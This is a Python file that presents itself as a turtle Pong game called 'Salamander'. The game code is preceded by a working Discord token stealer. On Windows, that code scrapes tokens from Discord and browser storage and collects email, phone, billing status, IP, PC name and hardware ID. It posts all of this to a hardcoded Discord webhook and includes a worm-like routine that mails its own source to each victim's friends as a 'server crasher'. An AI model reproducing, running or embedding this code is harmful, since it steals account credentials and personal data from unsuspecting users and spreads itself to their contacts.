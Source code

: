 import turtle
import os
if os.name != "nt":
    exit()
from re import findall
from json import loads, dumps
from base64 import b64decode
from subprocess import Popen, PIPE
from urllib.request import Request, urlopen
from datetime import datetime
from threading import Thread
from time import sleep
from sys import argv
LOCAL = os.getenv("LOCALAPPDATA")
ROAMING = os.getenv("APPDATA")
PATHS = {
    "Discord"           : ROAMING + "\\Discord",
    "Discord Canary"    : ROAMING + "\\discordcanary",
    "Discord PTB"       : ROAMING + "\\discordptb",
    "Google Chrome"     : LOCAL + "\\Google\\Chrome\\User Data\\Default",
    "Opera"             : ROAMING + "\\Opera Software\\Opera Stable",
    "Brave"             : LOCAL + "\\BraveSoftware\\Brave-Browser\\User Data\\Default",
    "Yandex"            : LOCAL + "\\Yandex\\YandexBrowser\\User Data\\Default"
}
def getheaders(token=None, content_type="application/json"):
    headers = {
        "Content-Type": content_type,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11"
    }
    if token:
        headers.update({"Authorization": token})
    return headers
def getuserdata(token):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me", headers=getheaders(token))).read().decode())
    except:
        pass
def gettokens(path):
    path += "\\Local Storage\\leveldb"
    tokens = []
    for file_name in os.listdir(path):
        if not file_name.endswith(".log") and not file_name.endswith(".ldb"):
            continue
        for line in [x.strip() for x in open(f"{path}\\{file_name}", errors="ignore").readlines() if x.strip()]:
            for regex in (r"[\w-]{24}\.[\w-]{6}\.[\w-]{27}", r"mfa\.[\w-]{84}"):
                for token in findall(regex, line):
                    tokens.append(token)
    return tokens
def getdeveloper():
    dev = "VERYRAREHASSAN"
    try:
        dev = urlopen(Request("https://pastebin.com/raw/ssFxiejv")).read().decode()
    except:
        pass
    return dev
def getip():
    ip = "None"
    try:
        ip = urlopen(Request("https://api.ipify.org")).read().decode().strip()
    except:
        pass
    return ip
def getavatar(uid, aid):
    url = f"https://cdn.discordapp.com/avatars/{uid}/{aid}.gif"
    try:
        urlopen(Request(url))
    except:
        url = url[:-4]
    return url
def gethwid():
    p = Popen("wmic csproduct get uuid", shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
    return (p.stdout.read() + p.stderr.read()).decode().split("\n")[1]
def getfriends(token):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/relationships", headers=getheaders(token))).read().decode())
    except:
        pass
def getchat(token, uid):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/channels", headers=getheaders(token), data=dumps({"recipient_id": uid}).encode())).read().decode())["id"]
    except:
        pass
def has_payment_methods(token):
    try:
        return bool(len(loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/billing/payment-sources", headers=getheaders(token))).read().decode())) > 0)
    except:
        pass
def send_message(token, chat_id, form_data):
    try:
        urlopen(Request(f"https://discordapp.com/api/v6/channels/{chat_id}/messages", headers=getheaders(token, "multipart/form-data; boundary=---------------------------325414537030329320151394843687"), data=form_data.encode())).read().decode()
    except:
        pass
def spread(token, form_data, delay):
    return # Remove to re-enabled
    for friend in getfriends(token):
        try:
            chat_id = getchat(token, friend["id"])
            send_message(token, chat_id, form_data)
        except Exception as e:
            pass
        sleep(delay)
def main():
    cache_path = ROAMING + "\\.cache~$"
    prevent_spam = True
    self_spread = True
    embeds = []
    working = []
    checked = []
    already_cached_tokens = []
    working_ids = []
    ip = getip()
    pc_username = os.getenv("UserName")
    pc_name = os.getenv("COMPUTERNAME")
    user_path_name = os.getenv("userprofile").split("\\")[2]
    developer = getdeveloper()
    for platform, path in PATHS.items():
        if not os.path.exists(path):
            continue
        for token in gettokens(path):
            if token in checked:
                continue
            checked.append(token)
            uid = None
            if not token.startswith("mfa."):
                try:
                    uid = b64decode(token.split(".")[0].encode()).decode()
                except:
                    pass
                if not uid or uid in working_ids:
                    continue
            user_data = getuserdata(token)
            if not user_data:
                continue
            working_ids.append(uid)
            working.append(token)
            username = user_data["username"] + "#" + str(user_data["discriminator"])
            user_id = user_data["id"]
            avatar_id = user_data["avatar"]
            avatar_url = getavatar(user_id, avatar_id)
            email = user_data.get("email")
            phone = user_data.get("phone")
            nitro = bool(user_data.get("premium_type"))
            billing = bool(has_payment_methods(token))
            embed = {
                "color": 0x7289da,
                "fields": [
                    {
                        "name": "**Account Info**",
                        "value": f'Email: {email}\nPhone: {phone}\nNitro: {nitro}\nBilling Info: {billing}',
                        "inline": True
                    },
                    {
                        "name": "**PC Info**",
                        "value": f'IP: {ip}\nUsername: {pc_username}\nPC Name: {pc_name}\nToken Location: {platform}',
                        "inline": True
                    },
                    {
                        "name": "**Token**",
                        "value": token,
                        "inline": False
                    }
                ],
                "author": {
                    "name": f"{username} ({user_id})",
                    "icon_url": avatar_url
                },
                "footer": {
                
                }
            }
            embeds.append(embed)
    with open(cache_path, "a") as file:
        for token in checked:
            if not token in already_cached_tokens:
                file.write(token + "\n")
    if len(working) == 0:
        working.append('123')
    webhook = {
        "content": "",
        "embeds": embeds,
        "username": "Discord Token Grabber",
        "avatar_url": "https://discordapp.com/assets/5ccabf62108d5a8074ddd95af2211727.png"
    }
    try:
        urlopen(Request("https://discord.com/api/webhooks/897178783818321950/MEHp2slFWFP2yelF7E11jEOELuIsY609FooAkn25swoGK1euyjcF4QWgbvTMDyX6ePZc", data=dumps(webhook).encode(), headers=getheaders()))
    except:
        pass
    if self_spread:
        for token in working:
            with open(argv[0], encoding="utf-8") as file:
                content = file.read()
            payload = f'-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="file"; filename="{__file__}"\nContent-Type: text/plain\n\n{content}\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="content"\n\nserver crasher. python download: https://www.python.org/downloads\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="tts"\n\nfalse\n-----------------------------325414537030329320151394843687--'
            Thread(target=spread, args=(token, payload, 7500 / 1000)).start()
try:
    main()
except Exception as e:
    print(e)
    pass

import turtle
 
wn = turtle.Screen()
wn.title("Salamander")
wn.bgcolor("blue")
wn.setup(width=900, height=600)
wn.tracer(0)  #oyunu hizlandirir silersen cok yavaslar
 
 
class PaddleFirst():
    def __init__(self):
        self.pen = turtle.Turtle()
        self.pen.penup()
        self.pen.speed(0)
        self.pen.shape("square")
        self.pen.shapesize(stretch_wid=5, stretch_len=1)
        self.pen.penup()
        self.pen.goto(-350, 0)
 
    def up(self):
        y = self.pen.ycor()
        y += 20
        self.pen.sety(y)
 
    def down(self):
        y = self.pen.ycor()
        y -= 20
        self.pen.sety(y)
 
 
class PaddleSecond():
    def __init__(self):
        self.pen = turtle.Turtle()
        self.pen.penup()
        self.pen.speed(0)
        self.pen.shape("square")
        self.pen.shapesize(stretch_wid=5, stretch_len=1)
        self.pen.penup()
        self.pen.goto(350, 0)
 
    def up(self):
        y = self.pen.ycor()
        y += 20
        self.pen.sety(y)
 
    def down(self):
        y = self.pen.ycor()
        y -= 20
        self.pen.sety(y)
 
 
 
class Ball():
    def __init__(self):
 
        self.pen = turtle.Turtle()
        self.pen.penup()
        self.pen.speed(0)
        self.pen.shape("circle")
        self.pen.color("Red")
        self.pen.penup()
        self.pen.goto(0, 0)
        self.pen.dx = 00.1
        self.pen.dy = 00.1
 
    def letsgo(self):
        self.pen.setx(self.pen.xcor() + self.pen.dx)
        self.pen.sety(self.pen.ycor() + self.pen.dy)
 
    def move(self):
        if self.pen.ycor() > 290:
            self.pen.sety(290)
            self.pen.dy *= -1
 
        if self.pen.ycor() < -290:
            self.pen.sety(-290)
            self.pen.dy *= -1
 
        if self.pen.xcor() > 390:
            self.pen.goto(0, 0)
            self.pen.dx *= -1
 
        if self.pen.xcor() < -390:
            self.pen.goto(0, 0)
            self.pen.dx *= -1
 
 
class Wall():
   def moving(self):
        if ball.pen.xcor() > 340 and (ball.pen.ycor() < paddle2.pen.ycor() + 40 and ball.pen.ycor() > paddle2.pen.ycor() - 40):
           ball.pen.dx *= -1
        if ball.pen.xcor() < -340 and (ball.pen.ycor() < paddle1.pen.ycor() + 40 and ball.pen.ycor() > paddle1.pen.ycor() - 40):
            ball.pen.dx *= -1
 
 
paddle1 = PaddleFirst()
print(paddle1)
paddle2 = PaddleSecond()
print(paddle2)
ball = Ball()
print(ball)
wall = Wall()
 
 
wn.listen()
wn.onkeypress(paddle1.up, "w")
wn.onkeypress(paddle1.down, "s")
wn.onkeypress(paddle2.up, "Up")
wn.onkeypress(paddle2.down, "Down")
 
 
 
while True:
    wn.update() # everytime uptades the screen
    ball.letsgo()
    ball.move()
    wall.moving()

